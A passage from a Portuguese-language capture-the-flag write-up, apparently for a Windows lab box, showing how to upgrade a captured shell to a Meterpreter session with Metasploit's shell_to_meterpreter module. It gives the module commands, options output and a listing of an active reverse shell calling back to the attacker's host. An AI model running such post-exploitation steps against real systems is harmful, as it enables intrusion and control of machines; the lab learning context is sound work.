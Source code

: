 Vamos utilizar o módulo `post/multi/manage/shell_to_meterpreter` selecionando ele através do comando `use post/multi/manage/shell_to_meterpreter`.

<div class="page"/>

### **<a id="10">2. Show options, what option are we required to change?</a>**

Ao usar `show options` podemos ver que temos que alterar a opção `SESSION` para o número da sessão que criamos anteriormente.

```bash

msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

```

### **<a id="11">3. Set the required option.</a>**

Agora vamos setar a opção `SESSION` para o número da sessão que criamos anteriormente. Para isso primeiro vamos usar o comando `sessions` para listar as sessões ativas e depois vamos setar a opção `SESSION` para o número da sessão que criamos anteriormente.

```bash

msf6 exploit(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type               Information                                               Connection
  --  ----  ----               -----------                                               ----------
  1         shell x64/windows  Shell Banner: Microsoft Windows [Version 6.1.7601] -----  10.18.20.23:4444 -> 10.10.79.113:49215 (10.10.79.113)

```


```bash
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
```
